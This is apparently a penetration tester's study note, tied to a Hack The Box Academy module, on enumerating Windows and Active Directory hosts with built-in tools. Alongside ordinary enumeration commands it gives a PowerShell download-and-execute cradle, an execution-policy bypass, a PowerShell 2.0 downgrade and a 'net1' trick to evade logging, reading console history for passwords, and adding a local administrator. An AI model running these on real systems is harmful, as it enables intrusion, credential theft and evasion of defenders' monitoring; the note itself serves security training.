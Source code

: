 Living Off the Land
####################

Date: 2024-12-25 12:34:44

Status: #new

Tags: :ref:`active directory enumeration attacks`

Description
*************

In scenarios where a more stealthy approach to pentesting is required, or you are unable to load and/or use any third
party tools, you may have to take avantage to utilities that are common to the operating system.  

This approach makes less noise on the network, and is less likely to be identified and blocked using these techniques.

Enumerating using ENV variables
*********************************

`hostname`                                  Displays the host name 
`[System.Environment]::OSVersion.Version`	Prints out the OS version and revision level
`wmic qfe get Caption,Description,
HotFixID,InstalledOn`                       Prints the patches and hotfixes applied to the host
`ipconfig /all`                             Prints out network adapter state and configurations
`echo %USERDOMAIN%`                         Displays the domain name to which the host belongs (run from CMD-prompt)
`echo %logonserver%`                        Prints out the name of the Domain controller the host checks in with (run from CMD-prompt)

Harnessing PowerShell
**********************

- Lists available modules loaded for use.

.. code-block:: powershell

    Get-Module

- Will print the execution policy settings for each scope on a host.

.. code-block:: powershell

    Get-ExecutionPolicy -List

- This will change the policy for our current process using the -Scope parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host.

.. code-block:: powershell

    Set-ExecutionPolicy Bypass -Scope Process

- Return environment values such as key paths, users, computer information, etc.

.. code-block:: powershell

    Get-ChildItem Env: | ft Key,Value

- With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.

.. code-block:: powershell

    Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt

- This is a quick and easy way to download a file from the web using PowerShell and call it from memory.

.. code-block:: powershell

    powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"

 - Attempt to call Powershell version 2.0 or older.  Version 3.0 has logging, 2.0 does not - for stealthy operations

.. code-block:: powershell

    powershell.exe -version 2

- Checking to see the status of the Firewall

.. code-block:: powershell

    PS C:\htb> netsh advfirewall show allprofiles

.. code-block:: console

    C:\htb> sc query windefend

- Geting the configuration settings for Defender

.. code-block:: powershell

    PS C:\htb> Get-MpComputerStatus

- Checking to see who else may be logged in

.. code-block:: powershell

    PS C:\htb> qwinsta


Windows Management Instrumentation (WMI)
******************************************

A scripting engine for system management purposes.  utilizing this will alow you to enumerate details of the confiruration

See below for examples

- :ref:`wmi` 

Net Commands
**************

.. warning:: 
    
    Net commands create logs, and are often monitored by EDR solutions. In a stealthy engagement these commands can give away your location.
    There is a work around, where you can try net1 instead of net - it may not log.

Table of Useful Net Commands
=============================

.. list-table:: Net Commands
   :widths: 50 50
   :header-rows: 1

   * - Command 
     - Description
   * - `net accounts`
     - Information about password requirements
   * - `net accounts /domain`
     - Password and lockout policy
   * - `net group /domain`
     - Information about domain groups
   * - `net group "Domain Admins" /domain`
     - List users with domain admin privileges
   * - `net group "domain computers" /domain`
     - List of PCs connected to the domain
   * - `net group "Domain Controllers" /domain`
     - List PC accounts of domains controllers
   * - `net group <domain_group_name> /domain`
     - User that belongs to the group
   * - `net groups /domain`
     - List of domain groups
   * - `net localgroup`
     - All available groups
   * - `net localgroup administrators /domain`
     - List users that belong to the administrators group inside the domain (the group Domain Admins is included here by default)
   * - `net localgroup Administrators`
     - Information about a group (admins)
   * - `net localgroup administrators [username] /add`
     - Add user to administrators
   * - `net share`
     - Check current shares
   * - `net user <ACCOUNT_NAME> /domain`
     - Get information about a user within the domain
   * - `net user /domain`
     - List all users of the domain
   * - `net user %username%`
     - Information about the current user
   * - `net use x: \computer\share`
     - Mount the share locally
   * - `net view`
     - Get a list of computers
   * - `net view /all /domain[:domainname]`
     - Shares on the domains
   * - `net view \computer /ALL`
     - List shares of a computer
   * - `net view /domain`
     - List of PCs of the domain


Dsquery
********

- :ref:`dsquery`

References
***********
https://academy.hackthebox.com/module/143/section/1360
